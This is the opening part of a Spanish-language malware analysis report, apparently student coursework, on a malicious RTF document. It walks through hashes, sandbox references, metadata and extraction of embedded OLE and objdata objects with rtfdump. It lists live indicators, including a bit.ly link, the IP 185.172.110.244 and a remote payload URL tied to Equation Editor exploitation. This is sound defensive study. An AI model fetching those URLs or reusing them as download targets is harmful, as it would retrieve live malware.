<div class="page"/>


- [**1. Tipo de fichero, hashes y contexto externo**](#1-tipo-de-fichero-hashes-y-contexto-externo)
  - [**1.1 Análisis con VirusTotal**](#11-análisis-con-virustotal)
  - [**1.2 Análisis en JoeSandBox**](#12-análisis-en-joesandbox)
- [**2. Analizamos con la herramienta Exiftool**](#2-analizamos-con-la-herramienta-exiftool)
  - [**2.1 Metadatos**](#21-metadatos)
  - [**2.2 Datastore con indicios de OLE**](#22-datastore-con-indicios-de-ole)
  - [**2.3 Themedata/Colorschememapping como campos no prioritarios**](#23-themedatacolorschememapping-como-campos-no-prioritarios)
- [**3. Didier Stevens Suite - rtfdump**](#3-didier-stevens-suite---rtfdump)
  - [**3.1 Mapa estructural del RTF**](#31-mapa-estructural-del-rtf)
  - [**3.2 Dos objetos `OLE` en `\*\datastore`**](#32-dos-objetos-ole-en-datastore)
  - [**3.3 Bloque `\bin000000` en el índice `350`**](#33-bloque-bin000000-en-el-índice-350)
  - [**3.4 Objeto `\objdata` en el índice `356`**](#34-objeto-objdata-en-el-índice-356)
  - [**3.5 Elemento raro: `\unknowntype1234567890`**](#35-elemento-raro-unknowntype1234567890)
  - [**3.6 Búsqueda adicional con -F**](#36-búsqueda-adicional-con--f)
  - [**3.7 Conclusiones**](#37-conclusiones)
- [**4. Extracción los objetos identificados**](#4-extracción-los-objetos-identificados)
  - [**4.1 Objeto `\*\datastore` índice `169`**](#41-objeto-datastore-índice-169)
  - [**4.2 Objeto `\*\datastore` índice `332`**](#42-objeto-datastore-índice-332)
  - [**4.3 Bloque `\bin000000` índice `350`**](#43-bloque-bin000000-índice-350)
  - [**4.4 Objeto \\objdata índice `356`**](#44-objeto-objdata-índice-356)
  - [**4.5 Los elementos anómalos opcionales**](#45-los-elementos-anómalos-opcionales)
  - [**4.6 Los 5 OLE encontrados con `rtfdump.py -F`**](#46-los-5-ole-encontrados-con-rtfdumppy--f)
- [**5. Triage de los ficheros extraidos**](#5-triage-de-los-ficheros-extraidos)
  - [**5.1 Validación de tipos y hashes**](#51-validación-de-tipos-y-hashes)
  - [**5.2 Análisis con oledump.py**](#52-análisis-con-oledumppy)
  - [**5.3 Búsqueda de PE embebidos con pecheck.py**](#53-búsqueda-de-pe-embebidos-con-pecheckpy)
  - [**5.4 Búsqueda genérica de cadenas en los objetos extraídos**](#54-búsqueda-genérica-de-cadenas-en-los-objetos-extraídos)
  - [**5.5 Revisión de artefactos secundarios: F\_3.ole, F\_4.ole y F\_5.ole**](#55-revisión-de-artefactos-secundarios-f_3ole-f_4ole-y-f_5ole)
  - [**5.6 Correlación de cadenas y localización de la zona relevante en el RTF original**](#56-correlación-de-cadenas-y-localización-de-la-zona-relevante-en-el-rtf-original)
    - [A) Búsqueda de representaciones hexadecimales en el RTF](#a-búsqueda-de-representaciones-hexadecimales-en-el-rtf)
    - [B) Relación con el índice \\objdata 356](#b-relación-con-el-índice-objdata-356)
  - [**5.7 Conclusiones del triage**](#57-conclusiones-del-triage)
- [**6. Correlación entre artefactos**](#6-correlación-entre-artefactos)
- [**7. Desentrañamos el contenido real del \\objdata índice 356**](#7-desentrañamos-el-contenido-real-del-objdata-índice-356)
  - [**7.1 Extraemos `objdata` ya decodificado**](#71-extraemos-objdata-ya-decodificado)
  - [**7.2 Extraemos y confirmamos IOCs del objdata\_356\_decoded.bin**](#72-extraemos-y-confirmamos-iocs-del-objdata_356_decodedbin)
  - [**6.3 Buscaremos si los IOCs están en otro fichero de la carpeta**](#63-buscaremos-si-los-iocs-están-en-otro-fichero-de-la-carpeta)
  - [**6.4 Resultados destacados**](#64-resultados-destacados)
- [**7. Analizamos el contexto alrededor de los offsets relevantes**](#7-analizamos-el-contexto-alrededor-de-los-offsets-relevantes)
  - [**7.1 F\_2.ole contiene código x86 real con cadenas inline**](#71-f_2ole-contiene-código-x86-real-con-cadenas-inline)
  - [**7.2 Patrón importante: call + datos inline**](#72-patrón-importante-call--datos-inline)
  - [**7.3 F\_2.ole implementa resolución dinámica de APIs**](#73-f_2ole-implementa-resolución-dinámica-de-apis)
  - [**7.4 A partir de 0x396a hay rutina de comparación/resolución**](#74-a-partir-de-0x396a-hay-rutina-de-comparaciónresolución)
  - [**7.5 F\_1.ole y objdata\_356\_decoded.bin contienen la misma zona**](#75-f_1ole-y-objdata_356_decodedbin-contienen-la-misma-zona)
  - [**7.6 Interpretación de UrlMon y URLDownloadToA6h?**](#76-interpretación-de-urlmon-y-urldownloadtoa6h)
  - [**7.7 Conclusiones**](#77-conclusiones)
- [**8. Automatizando tareas: Ghidra**](#8-automatizando-tareas-ghidra)
  - [**8.1 Observamos cómo se ve desde Ghidra `F_2.ole`**](#81-observamos-cómo-se-ve-desde-ghidra-f_2ole)
  - [**8.2 Detalle de la resolución dinámica de APIs**](#82-detalle-de-la-resolución-dinámica-de-apis)
  - [**8.3 Script Python para ghidra que analiza el RTF**](#83-script-python-para-ghidra-que-analiza-el-rtf)
  - [**8.4 Script Python que busca apis determinadas**](#84-script-python-que-busca-apis-determinadas)
  - [**8.5 Script Python que marca offsets ya confirmados manualmente**](#85-script-python-que-marca-offsets-ya-confirmados-manualmente)
  - [**8.6 Script Python que detecta patrones `CALL rel32`**](#86-script-python-que-detecta-patrones-call-rel32)
  - [**8.7 Conclusiones**](#87-conclusiones)
  - [**8.8 Script desofuscador heurístico multi-formato**](#88-script-desofuscador-heurístico-multi-formato)
- [**9. Conclusiones finales del análisis estático**](#9-conclusiones-finales-del-análisis-estático)
- [**10. Regla YARA simple**](#10-regla-yara-simple)
- [**11. Análisis dinámico**](#11-análisis-dinámico)
  - [**11.1 Preparación de la Máquina Virtual**](#111-preparación-de-la-máquina-virtual)
    - [**A) Process Monitor**](#a-process-monitor)
    - [**B) Process Explorer**](#b-process-explorer)
    - [**C) Regshot**](#c-regshot)
    - [**D) Wireshark**](#d-wireshark)
    - [**E) Autoruns: persistencia**](#e-autoruns-persistencia)
  - [**Intentamos convertir el hallazgo en algo minimamente ejecutable**](#intentamos-convertir-el-hallazgo-en-algo-minimamente-ejecutable)


<div class="page"/>

# **1. Tipo de fichero, hashes y contexto externo**

En primer lugar se realiza una identificación básica de la muestra para confirmar su tipo de fichero y calcular sus hashes principales.

**La muestra analizada tiene como nombre:**
```
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf
```


**Mediante el comando `file` se confirma que se trata de un documento en formato RTF:**
```
└─$ file 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf 
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf: Rich Text Format data, version 0
```
Esto confirma que la muestra mantiene estructura de documento Rich Text Format y, por tanto, debe analizarse con herramientas específicas para RTF y objetos embebidos, como `rtfdump.py`, `rtfobj`, `oledump.py` o utilidades similares.


**Cálculo de los hashes de la muestra para identificarla de forma inequívoca durante el análisis:**
```
md5sum 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf
sha1sum 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf
sha256sum 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf
```

**Hashes obtenidos:**
```
MD5    : 2fd300bd01ea3d00ea59d4e1d47056a0
SHA1   : d8747407679055deee5bafaac281bdac52274da2
SHA256 : 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762
```

El archivo es reconocido por `file` como un documento `Rich Text Format` válido. Esto confirma que la muestra mantiene estructura `RTF` y debe analizarse con herramientas específicas para `RTF/OLE`, como `rtfdump.py` y `oledump.py`.


Como apoyo al análisis propio, se consultan también fuentes externas como VirusTotal y Joe Sandbox. Estos servicios se utilizan únicamente como contexto y contraste, no como sustituto del análisis manual realizado en el laboratorio.


## **1.1 Análisis con VirusTotal**
[Enlace al análisis que VirusTotal hace de esta muesrtra de malware.](https://www.virustotal.com/gui/file/2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762)

## **1.2 Análisis en JoeSandBox**
[Enlace al análisis que se realiza en JoseSandBox](https://www.joesandbox.com/analysis/798795/0/html)

[Enlace al análisis en pdf que se realiza en JoseSandBox](https://www.joesandbox.com/analysis/798795/0/pdf)

El informe externo de Joe Sandbox muestra indicadores dinámicos que serán útiles como hipótesis de trabajo, como la ejecución de procesos relacionados con Microsoft Word, posibles artefactos temporales de Office, tráfico HTTP hacia `bit.ly` y una redirección posterior hacia una URL remota. Sin embargo, en esta fase inicial no se asumen estos datos como hallazgos propios, sino como referencias que se intentarán confirmar posteriormente mediante análisis estático y dinámico.

Por tanto, el objetivo de los siguientes apartados será comprobar si el documento RTF contiene objetos embebidos, código o cadenas que permitan explicar esos indicadores externos. En especial, se prestará atención a posibles objetos OLE, bloques objdata, shellcode, URLs, rutas de escritura y funciones de descarga o ejecución.

| IOCs                                       | Origen   | Comentario                                |
| ------------------------------------------ | -------- | ----------------------------------------- |
| `http://bit.ly/34vzFlU`                    | Estático | Embebido/codificado en el RTF             |
| `185.172.110.244`                          | Dinámico | IP obtenida tras resolución/redirección   |
| `http://185.172.110.244/rwab/pacbebin.txt` | Dinámico | URL final observada por Joe Sandbox       |
| `EQNEDT32.EXE`                             | Dinámico | Proceso lanzado durante la explotación    |
| `34vzFlU[1].htm`                           | Dinámico | HTML temporal generado al acceder a Bitly |
| `~WRF{...}.tmp`, `~WRS{...}.tmp`           | Dinámico | Artefactos temporales de Word/Office      |


-----


# **2. Analizamos con la herramienta Exiftool**
```
└─$ exiftool 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf 
```

**Se guarda la salida de ExifTool para su análisis: [Exiftool.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/exiftool.md)**



**Destacamos:**
```
File Name : 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf
File Size : 1065 kB
File Modification Date/Time : 2020:11:11 11:09:38+01:00
File Type : RTF
File Type Extension : rtf
MIME Type : text/rtf
Warning : Unspecified RTF encoding. Will assume Latin
```

ExifTool identifica la muestra como un documento RTF de 1065 kB. **La advertencia de codificación RTF no especificada es relevante porque confirma que se trata de un documento RTF potencialmente complejo/ofuscado.**


## **2.1 Metadatos**
El archivo se identifica correctamente como `RTF`, con extensión `rtf` y tipo MIME `text/rtf`. Su tamaño aproximado es de `1065 kB`.

Las fechas indican que la muestra tiene una fecha de modificación de `2020-11-11 11:09:38+01:00`, mientras que las fechas de acceso y cambio de inode corresponden al año `2026`, durante su manipulación en el entorno de laboratorio.

No aparecen valores en los campos `Author` ni `Last Modified By`, lo cual puede ser habitual en documentos limpiados, generados automáticamente o manipulados. El campo `Info` muestra `Windows User`, lo que podría indicar que el documento fue generado o guardado desde un entorno Windows genérico.


## **2.2 Datastore con indicios de OLE**
El campo `Datastore` contiene un blob hexadecimal largo. Este valor no se muestra decodificado por ExifTool, pero al analizarlo se observan varios elementos relevantes.
  


**Fragmentos destacados del campo `Datastore`:**  
```
Datastore : 01050000...4d73786d6c322e534158584d4c5265616465722e362e30...d0cf11e0...
....
....
....52006f006f007400200045006e007400720079...
```

**Cadena `Msxml2.SAXXMLReader.6.0`:**
```
└─$ echo "4d73786d6c322e534158584d4c5265616465722e362e30" | xxd -r -p
Msxml2.SAXXMLReader.6.0    
```
donde:
- Obtenemos: `Msxml2.SAXXMLReader.6.0`: Esto apunta a un componente `COM/XML` de Microsoft. En este caso, la cadena aparece como parte del objeto embebido dentro del campo Datastore.


**Cabecera `OLE/CFBF`:**  
Más adelante, dentro del mismo blob hexadecimal del campo `Datastore`, aparece la secuencia:
```
...d0cf11e0a1b11ae1...
```
donde:
- Esa secuencia corresponde a la firma característica de un archivo `OLE Compound File Binary Format`, también llamado `CFBF` u `OLE structured storage`. 


**Cadena interna `Root Entry`:**  
Dentro del mismo blob hexadecimal aparece también el fragmento:
```
....52006f006f007400200045006e007400720079...
```
donde:
- Este fragmento está codificado como `UTF-16LE`.
- Si se descodifica obtenemos: `Root Entry`.
- `Root Entry`: Es una cadena interna propia de la estructura `OLE/CFBF` embebida dentro del valor hexadecimal del campo Datastore.


**Conclusión del análisis del campo Datastore:**  
La estructura observada puede resumirse así:  
```
Campo ExifTool: Datastore
└── Blob hexadecimal
    └── Objeto OLE/CFBF embebido
        ├── Nombre/referencia interna: Msxml2.SAXXMLReader.6.0
        ├── Cabecera OLE/CFBF: D0 CF 11 E0 A1 B1 1A E1
        └── Entrada interna OLE: Root Entry
```

**<mark>En conclusión, el campo `Datastore` contiene una estructura `OLE/CFBF` embebida. Dentro de ella se identifican la cadena `Msxml2.SAXXMLReader.6.0`, la cabecera OLE `D0 CF 11 E0 A1 B1 1A E1` y la entrada interna `Root Entry`. Esto confirma que el documento `RTF` no es un fichero simple y que contiene objetos `OLE` que deberán extraerse y analizarse con herramientas como `rtfdump.py` y `oledump.py`.</mark>**

## **2.3 Themedata/Colorschememapping como campos no prioritarios**
Además del campo `Datastore`, ExifTool muestra otros campos relevantes desde el punto de vista estructural: `Themedata` y `Colorschememapping`.

**A) El Campo Themedata**  
El campo `Themedata` comienza con la secuencia hexadecimal:
```
504b0304
```
donde:
- Esta secuencia corresponde a la firma típica de una entrada local de archivo `ZIP`. En `ASCII`, `50 4B` equivale a `PK`, cabecera habitual en archivos `ZIP`.

Dentro del mismo blob hexadecimal se observan nombres de ficheros propios de un paquete `Office Open XML` relacionado con temas de Office, como:
```
[Content_Types].xml
_rels/.rels
theme/theme/themeManager.xml
theme/theme/theme1.xml
theme/theme/_rels/themeManager.xml.rels
```
Esto indica que `Themedata` contiene datos comprimidos con estructura `ZIP/OOXML` asociados al tema visual del documento. En un `RTF` generado por Microsoft Word, este tipo de información puede aparecer como parte de los metadatos o recursos de formato del documento.

<mark>Por sí solo, este campo no debe considerarse malicioso. En este análisis, `Themedata` parece estar relacionado con información de tema de Office, no con el payload principal.</mark>


**B) El Campo Colorschememapping**  
El campo `Colorschememapping` también aparece codificado en hexadecimal. Al decodificarlo, se obtiene contenido `XML` relacionado con el mapeo de colores del tema de Office.

El comienzo del campo es:
```
3c3f786d6c2076657273696f6e3d22312e3022...
```

Si se convierte de hexadecimal a texto, comienza como:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

<mark>Este campo tampoco parece ser un hallazgo relevante en el análisis. Su presencia es coherente con información de formato/tema de Office dentro del `RTF`.</mark>

 
------------


# **3. Didier Stevens Suite - rtfdump**
Con las herramientas de Didier Stevens Suite, vamos a analizar la estructura del `RTF`: grupos, objetos, `object`, bloques hexadecimales, etc. Acortamos el nombre del fichero para hacerlo más manejable:
```
└─$ malwareRTF=~/Escritorio/muestras-malware/ENIIT/M9/T3/2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf


└─$ python rtfdump.py "$malwareRTF" > rtfdump-didier.txt                                                                                  
```

Obtenemos el fichero: [Análisis con Didier Stevens Suite](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/rtfdump-didier.txt)


## **3.1 Mapa estructural del RTF**

La salida de `rtfdump.py` confirma que el RTF tiene contenido embebido sospechoso. Hay tres zonas que debemos priorizar:  
  
...
  
...  
  
...  
donde:
- <mark>En el índice `169`: hay un bloque `\*\datastore` con `OLE/CFBF`.</mark>
- <mark>En el índice `332`: hay un bloque `\*\datastore` con `OLE/CFBF`.</mark>
- <mark>En el índice `350`: hay un bloque `\bin000000` que contiene `\objdata`</mark>. Como `356` está a `Level 3` y aparece debajo del bloque `350`, que está a Level 2, se interpreta como contenido anidado dentro de ese bloque/grupo superior.

**Tabla resumen de los hallazgos encontrados con `rtfdump`:**
| Índice rtfdump | Elemento       | Relevancia                                        |
| -------------: | -------------- | ------------------------------------------------- |
|            `1` | `\rtf09876`    | Raíz del grupo                                    |
|          `169` | `\*\datastore` | OLE embebido detectado                            |
|          `332` | `\*\datastore` | Segundo OLE embebido detectado                    |
|          `350` | `\bin000000`   | Bloque binario grande                             |
|          `356` | `\objdata`     | Objeto OLE/RTF embebido dentro del bloque binario |


## **3.2 Dos objetos `OLE` en `\*\datastore`**
**A) Aparece un primer `\*\datastore` en el índice `169`:**
```
169 ... \*\datastore
Name: b'Msxml2.SAXXMLReader.6.0\x00' Size: 1536 md5: 23e2fff9eb3567a7dc30952d4f857298 magic: d0cf11e0
```
donde:
- El `magic: d0cf11e0` es la cabecera de un `OLE Compound File / CFBF`.

**B) En el índice `332`, aparece otro `\*\datastore`:**
```
332 ... \*\datastore
Name: b'Msxml2.SAXXMLReader.6.0\x00' Size: 1536 md5: 9074f78b22547664129e121fbebe14fe magic: d0cf11e0
```
donde:
- Encontramos otro `OLE/CFBF` de 1536 bytes, con el mismo nombre `COM`, pero `MD5` diferente.
- <mark>Esto implica que son objetos distintos, ya que tienen MD5 diferente. Así que tendremos que extraerlos y analizarlos.</mark>


## **3.3 Bloque `\bin000000` en el índice `350`**
El índice 350 es muy relevante:
```
350 Level 2 ... l=91346 ... \bin000000
``` 

Un bloque `\bin` de unos `91 KB` dentro de un `RTF` sospechoso debe tratarse como zona de interés, porque puede contener objetos embebidos, estructuras OLE, shellcode, contenido ofuscado o datos para explotación.

Dentro de ese bloque aparecen varios subgrupos grandes:
```
351 l=5397
352 l=12537
353 l=14577
354 l=5397
355 l=13302
356 \objdata
```
<mark>Esto sugiere que el bloque no es mero texto: hay bastante contenido binario/estructurado.</mark>

## **3.4 Objeto `\objdata` en el índice `356`**
El índice 356 contiene:
```
356 ... \objdata
357 ... l=11270
358 ...
359 ... \mmath
360 ... \*\d
361 ... l=808
```

<mark>Esto es probablemente el artefacto más importante después de los datastore. `\objdata` suele ser donde `RTF` almacena datos de objetos `OLE` embebidos.</mark> Además, la presencia de `\mmath` y `\*\d` dentro de esa zona puede estar relacionada con contenido de Office/ecuaciones o estructura embebida.


## **3.5 Elemento raro: `\unknowntype1234567890`**
Antes del bloque `\bin000000`, aparece una sección en los índices `334` y `340`:
```
\unknowntype1234567890
```
Este nombre no parece un control `word` estándar útil de `RTF`. <mark>Puede ser ruido, padding, ofuscación o parte de una técnica para confundir parsers. Pudiera ser un anomalía estructural.</mark>


## **3.6 Búsqueda adicional con -F**
Buscamos OLE embebidos aunque el RTF esté ofuscado:
```
└─$ python rtfdump.py -F "$malwareRTF"
1:
   Magic: d0cf11e0 ....
   Size:  35186
   md5:   4d887446a79c0ff2d532f474e3ae3dd5
2:
   Magic: d0cf11e0 ....
   Size:  24945
   md5:   155c9a1cad0648461d02d708d3a79890
3:
   Magic: d0cf11e0 ....
   Size:  1544
   md5:   a4883bb0dc008bb283c2dd5b1ca9cace
4:
   Magic: d0cf11e0 ....
   Size:  1544
   md5:   26d49806195121f5c63c915847994e1a
5:
   Magic: d0cf11e0 ....
   Size:  4799
   md5:   2e843fce3d9732542cacdbfaef6a96de
                                            
```
donde:
- La cadena `-F` intenta decodificar cadenas hexadecimales y buscar objetos OLE con cabecera `D0CF11E0`, útil en RTF maliciosos ofuscados.
- <mark>Deberemos extraer estos 5 elementos que se han identificado para verificar si son nuevos objetos detectados o son los mismos que se han detectado anteriormente.</mark>


## **3.7 Conclusiones**
El análisis con `rtfdump.py` identifica un RTF con múltiples estructuras embebidas. Se detectan dos entradas `\*\datastore` que contienen objetos `OLE/CFBF` con cabecera `D0 CF 11 E0`, ambos asociados al nombre `Msxml2.SAXXMLReader.6.0` y con hashes MD5 distintos. Además, se observa un bloque `\bin000000` de aproximadamente 91 KB que contiene un subgrupo `\objdata`, lo que sugiere presencia de objeto `OLE` o payload embebido. Se prioriza la extracción de los índices `169`, `332`, `350` y `35`6 para análisis con `oledump.py`, `pecheck.py` y búsqueda de `IOCs`.


------

# **4. Extracción los objetos identificados**

## **4.1 Objeto `\*\datastore` índice `169`**

Extraemos el contenido del objeto `\*\datastore` identificado por `rtfdump` en el índice `169`:
```
python rtfdump.py -s 169 -H -d "$malwareRTF" > extraccion-rtf/datastore_169_raw.bin
```

Este objeto se corresponde con:
```sh
\*\datastore
Name: Msxml2.SAXXMLReader.6.0
Size: 1536
md5: 23e2fff9eb3567a7dc30952d4f857298
magic: d0cf11e0
```

Mostramos en hexadecimal los primeros 16 bytes del fichero extraído:
```sh
└─$ xxd -l 16 datastore_169_raw.bin
00000000: 0105 0000 0200 0000 1800 0000 4d73 786d  ............Msxm
```
donde:
- Esta salida confirma que el contenido ya ha sido decodificado a binario real, no a ASCII hexadecimal. Sin embargo, el fichero `datastore_169_raw.bin` no empieza directamente con la cabecera `OLE/CFBF`. Los primeros bytes corresponden a una estructura previa del objeto, donde se observa el comienzo del nombre `Msxml....`. 


Al buscar la cabecera `OLE/CFBF`:
```
D0 CF 11 E0 A1 B1 1A E1
```
se observa que esta comienza en el `offset 48`. Por tanto, el `OLE` embebido no empieza en el `byte 0` del `datastore`, sino en el `offset 48`.

A partir de ese offset se `carvean 1536 bytes`, que corresponden al tamaño indicado por `rtfdump`, para obtener el objeto OLE puro:
```
dd if=datastore_169_raw.bin of=datastore_169_puro.ole bs=1 skip=48 count=1536 status=none
```

Verificamos la cabecera del fichero extraído:
```
└─$ xxd -l 16 datastore_169_puro.ole
00000000: d0cf 11e0 a1b1 1ae1 0000 0000 0000 0000  ................
```
ya sí vemos la presencia de la firma: `D0 CF 11 E0 A1 B1 1A E1` confirma que `datastore_169_puro.ole` es un documento `OLE/CFBF` válido.


Finalmente, calculamos su hash MD5:
```
└─$ md5sum datastore_169_puro.ole
23e2fff9eb3567a7dc30952d4f857298  datastore_169_puro.ole
```
vemos que el hash coincide con el valor reportado por `rtfdump`, por lo que se confirma que <mark>el objeto `\*\datastore` del índice `169` se ha extraído correctamente como `OLE` puro.</mark>


## **4.2 Objeto `\*\datastore` índice `332`**
Repetimos el proceso con este objeto y extraemos el contenido del objeto `\*\datastore` identificado por `rtfdump` en el índice `332`:
```sh
python rtfdump.py -s 332 -H -d "$malwareRTF" > extraccion-rtf/datastore_332_raw.bin
```

Este objeto se corresponde con:
```sh
\*\datastore
Name: Msxml2.SAXXMLReader.6.0
Size: 1536
md5: 9074f78b22547664129e121fbebe14fe
magic: d0cf11e0
```

Mostramos en hexadecimal los primeros 16 bytes del fichero extraído:
```sh
└─$ xxd -l 16 datastore_332_raw.bin
00000000: 0105 0000 0200 0000 1800 0000 4d73 786d  ............Msxm
```

También debemos hacer el carving  para obtener el objeto OLE puro:
```sh
└─$ dd if=datastore_332_raw.bin of=datastore_332_puro.ole bs=1 skip=48 count=1536 status=none
```

Verificamos la cabecera del fichero extraído:
```shell
└─$ xxd -l 16 datastore_332_puro.ole
00000000: d0cf 11e0 a1b1 1ae1 0000 0000 0000 0000  ................
```
ya sí vemos la presencia de la firma: `D0 CF 11 E0 A1 B1 1A E1` confirma que `datastore_332_puro.ole` es un documento `OLE/CFBF` válido.

Calculamos md5:
```shell
└─$ md5sum datastore_169_puro.ole datastore_332_puro.ole
23e2fff9eb3567a7dc30952d4f857298  datastore_169_puro.ole
9074f78b22547664129e121fbebe14fe  datastore_332_puro.ole
```
vemos que el hash coincide con el valor reportado por `rtfdump`, por lo que se confirma que <mark>el objeto `\*\datastore` del índice `332` se ha extraído correctamente como `OLE` puro.</mark>


## **4.3 Bloque `\bin000000` índice `350`**
Repetimos el proceso y extraemos el contenido del bloque:
```
python rtfdump.py -s 350 -d "$malwareRTF" > extraccion-rtf/bin_350.bin
```
vemos que este bloque es grande, unos 91346 bytes, y puede contener datos embebidos relevantes.


## **4.4 Objeto \objdata índice `356`**
Repetimos el proceso y extraemos el contenido del objeto:
```
python rtfdump.py -s 356 -d "$malwareRTF" > extraccion-rtf/objdata_356.bin
```
Este es uno de los objetos más importantes, porque `\objdata` suele contener datos de objetos OLE embebidos en RTF.


## **4.5 Los elementos anómalos opcionales**
```
python rtfdump.py -s 334 -d "$malwareRTF" > extraccion-rtf/unknowntype_334.bin
python rtfdump.py -s 340 -d "$malwareRTF" > extraccion-rtf/unknowntype_340.bin
```

## **4.6 Los 5 OLE encontrados con `rtfdump.py -F`**
```
python rtfdump.py -F -s 1 -d "$malwareRTF" > extraccion-rtf/F_1.ole
python rtfdump.py -F -s 2 -d "$malwareRTF" > extraccion-rtf/F_2.ole
python rtfdump.py -F -s 3 -d "$malwareRTF" > extraccion-rtf/F_3.ole
python rtfdump.py -F -s 4 -d "$malwareRTF" > extraccion-rtf/F_4.ole
python rtfdump.py -F -s 5 -d "$malwareRTF" > extraccion-rtf/F_5.ole
```

Nota: `F_5.ole` fue extraído por `rtfdump.py -F` como candidato con firma `OLE`, pero `file` no lo reconoce como `OLE` válido, por lo que debe tratarse como artefacto parcial, corrupto o no estructurado.


# **5. Triage de los ficheros extraidos**

5. Triage de los ficheros extraídos

## **5.1 Validación de tipos y hashes**
**Comprobamos el tipo de fichero obtenido para identificar si se han extraido correctamente:**
```
└─$ file extraccion-rtf/*
extraccion-rtf/bin_350.bin:           data
extraccion-rtf/datastore_169_raw.bin: ctab data
extraccion-rtf/datastore_332_raw.bin: ctab data
extraccion-rtf/F_1.ole:               Composite Document File V2 Document, Cannot read section info
extraccion-rtf/F_2.ole:               Composite Document File V2 Document, Cannot read section info
extraccion-rtf/F_3.ole:               Composite Document File V2 Document, Cannot read section info
extraccion-rtf/F_4.ole:               Composite Document File V2 Document, Cannot read section info
extraccion-rtf/F_5.ole:               data
extraccion-rtf/objdata_356.bin:       data
extraccion-rtf/unknowntype_334.bin:   ASCII text, with CRLF line terminators
extraccion-rtf/unknowntype_340.bin:   ASCII text, with CRLF line terminators            
```


**Comprobamos sus hashes:**
```
└─$ md5sum extraccion-rtf/*
b6cdad4af13539186afa0e9f708f78a2  extraccion-rtf/bin_350.bin
81ea5156a2ca0f02b3b651f82d1c3f0e  extraccion-rtf/datastore_169_raw.bin
c8aa570f72c1fa77c8e16de270a5d251  extraccion-rtf/datastore_332_raw.bin
4d887446a79c0ff2d532f474e3ae3dd5  extraccion-rtf/F_1.ole
155c9a1cad0648461d02d708d3a79890  extraccion-rtf/F_2.ole
a4883bb0dc008bb283c2dd5b1ca9cace  extraccion-rtf/F_3.ole
26d49806195121f5c63c915847994e1a  extraccion-rtf/F_4.ole
2e843fce3d9732542cacdbfaef6a96de  extraccion-rtf/F_5.ole
948fc949057310f470c640fdb85fa80b  extraccion-rtf/objdata_356.bin
f1b4e27f634f934e31f915e479236a17  extraccion-rtf/unknowntype_334.bin
66db76683d1096b0e858dcd7d9993cd2  extraccion-rtf/unknowntype_340.bin

```

## **5.2 Análisis con oledump.py**
